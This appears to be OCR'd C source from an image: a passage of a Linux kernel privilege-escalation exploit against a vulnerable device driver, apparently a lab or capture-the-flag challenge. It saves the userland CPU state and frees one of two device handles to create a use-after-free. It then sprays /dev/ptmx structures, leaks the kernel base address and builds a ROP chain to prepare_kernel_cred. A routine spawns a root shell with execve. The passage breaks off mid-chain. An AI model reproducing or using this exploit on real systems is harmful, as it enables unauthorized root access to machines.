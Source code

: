 ```c
  uid_t uid = getuid();
  if (uid == 0) {
    printf("[+] got root (uid = %d)\n", uid);
  } else {
    printf("[!] failed to get root (uid: %d)\n", uid);
    exit(-1);
  }
  puts("[*] spawning shell");
  char *argv[] = {"/bin/sh", NULL};
  char *envp[] = {NULL};
  execve("/bin/sh", argv, envp);
  puts("[+] win!");
  exit(0);
}

void save_userland_state() {
  puts("[*] saving user land state");
  __asm__(".intel_syntax noprefix;"
          "mov user_cs, cs;"
          "mov user_ss, ss;"
          "mov user_sp, rsp;"
          "pushf;"
          "pop user_rflags;"
          ".att_syntax");
}

int main() {
  save_userland_state();

  int fd1 = open(DEVICE, O_RDWR);
  int fd2 = open(DEVICE, O_RDWR);
  char buf[0x400];

  if (fd1 == -1 || fd2 == -1) {
    perror("open");
    return 1;
  }

  close(fd1);

  for (int i = 0; i < SPRAY_NUM / 2; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1)
      perror("open");
  }

  read(fd2, buf, 0x400);

  uint64_t *ptr = (uint64_t *)buf;

  kernel_base = ptr[3] - OPS_OFFSET;
  g_buf = ptr[7] - 0x38;

  //   kernel_base = *(unsigned long *)&buf[0x18] - OPS_OFFSET;
  //   g_buf = *(unsigned long *)&buf[0x38] - 0x38;

  printf("[+] kernel_base: 0x%lx\n", kernel_base);
  printf("[+] 1st g_buf: 0x%lx\n", g_buf);

  uint64_t *rop_chain = (uint64_t *)buf;
  *rop_chain++ = pop_rdi_ret - base + kernel_base;
  *rop_chain++ = 0;
  *rop_chain++ = prepare_kernel_cred - base + kernel_base;
```